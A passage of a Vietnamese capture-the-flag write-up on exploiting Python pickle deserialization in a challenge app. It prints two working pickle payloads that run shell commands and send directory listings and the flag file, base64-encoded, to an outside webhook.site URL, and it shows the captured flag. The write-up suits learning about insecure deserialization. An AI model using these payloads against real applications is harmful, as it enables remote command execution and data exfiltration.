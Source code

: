 Sau đó mình cacth được một cái request nhưng chỉ có file app.py. 

![image](https://hackmd.io/_uploads/rJxUwQ1c1e.png)

Sau một hồi debug thì mình nhìn ra vấn đề có liên quan đến kí tự newline nên mình chơi encode base64 luôn

```python
import base64 
import pickle
import os

payload = b"cos\nsystem\nS'FLAG=$(curl https://webhook.site/642fc66c-f78b-40b5-9795-648e101b262d/?c=`ls | base64`)'\n\x85R."
print(pickle.loads(payload))
print(base64.b64encode(payload))
```

Ok lần này thì mình đã list ra được tất cả file trong thư mục 

![image](https://hackmd.io/_uploads/ByQAvQyc1g.png)

![image](https://hackmd.io/_uploads/HkKyOm19ke.png)

Thử trên challenge thì mình list được thư mục của server luôn and yeah có một file FLAG kìa

![image](https://hackmd.io/_uploads/Hk6buXycyx.png)

![image](https://hackmd.io/_uploads/BJamdmy9yx.png)

Tới đây thì mình chỉ cần đọc file FLAG đó là xong 

```python
import base64 
import pickle
import os

payload = b"cos\nsystem\nS'FLAG=$(curl https://webhook.site/642fc66c-f78b-40b5-9795-648e101b262d/?c=`cat FLAG | base64`)'\n\x85R."
print(pickle.loads(payload))
print(base64.b64encode(payload))
```

Sau khi chạy trên thì mình lấy được flag bằng lệnh cat

![image](https://hackmd.io/_uploads/B1lPdmk51x.png)

![image](https://hackmd.io/_uploads/B1O_uXy9Jg.png)

`Flag: E4HX{oh_h3l1_n44www_y0u_8r0k3_5th_w4l1}`
